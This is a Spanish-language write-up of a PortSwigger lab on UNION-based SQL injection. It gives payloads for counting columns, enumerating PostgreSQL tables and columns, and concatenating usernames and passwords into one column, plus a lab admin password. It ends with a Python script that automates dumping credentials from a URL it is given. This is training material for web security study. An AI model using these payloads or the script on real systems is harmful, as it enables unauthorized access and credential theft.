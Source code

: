 ```yaml
---
title: "06 SQL injection UNION attack, retrieving multiple values in a single column"
collection: publications
category: portswigger
permalink: /publications/06_SQL injection UNION attack, retrieving multiple values in a single column
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que recupera los nombres de usuario y las contraseñas de los usuarios de la aplicación en una única columna.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection UNION attack, retrieving multiple values in a single column'
---
```


![logo]({{site.url}}/images/SQLi/sqli-6/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-6/descripcion.png)

## Objetivo del laboratorio

Realizar un ataque UNION de inyección SQL que recupere todos los nombres de usuario y contraseñas, y utilice la información para iniciar sesión como usuario `administrator`.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-6/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

![Order by]({{site.url}}/images/SQLi/sqli-6/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL--   -> Error
' UNION SELECT NULL, 'A'--   -> Correcta
```

![String]({{site.url}}/images/SQLi/sqli-6/tipo string.png)

## Obtener que tipo de Base de dato es:

Es una BD Postgres SQL, en esta ocación realizamos la insercion en la segunda columna ya que es inyectable

```javascript
' UNION SELECT NULL, version()--
```

![Base de datos]({{site.url}}/images/SQLi/sqli-6/version bd.png)

![Base de datos]({{site.url}}/images/SQLi/sqli-5/BD.png)

## Obtener el nombre de las tablas

Ya que conocemos el tipo de BD, debemos listar el nombre de las tablas.

```javascript
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema='public'--
```

![Tablas]({{site.url}}/images/SQLi/sqli-6/tablas.png)

## Listamos las columnas

```javascript
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users'--
```

![Columnas de la tabla]({{site.url}}/images/SQLi/sqli-6/columnas de la tabla.png)

## Listar username y password
Ya que conocemos las columnas de la tabla, debemos listarla. En esta ocación unimos en una sola columna

```javascript
' UNION SELECT NULL,username || '*****' || password FROM users--
```

![Usuarios Passwords]({{site.url}}/images/SQLi/sqli-6/listado usuario y password.png)

## Procedemos a hacer el login

```
administrator
1xezeeiddf3uw560r9m0
```

![login]({{site.url}}/images/SQLi/sqli-6/login.png)

## Solucionado

Solventado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-6/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_users_table(url):
    username = 'administrator'
    path = '/filter?category=Pets'
    sql_payload = "' UNION select NULL, username || '*' || password from users--"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    res = r.text
    if "administrator" in res:
        print("[+] Found the administrator password...")
        soup = BeautifulSoup(r.text, 'html.parser')
        admin_password = soup.find(text=re.compile('.*administrator.*')).split("*")[1]
        print("[+] The administrator password is '%s'." % admin_password)
        return True
    return False



if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("[+] Dumping the list of usernames and passwords...")
    if not exploit_sqli_users_table(url):
        print("[-] Did not find an administrator password.")
    
```
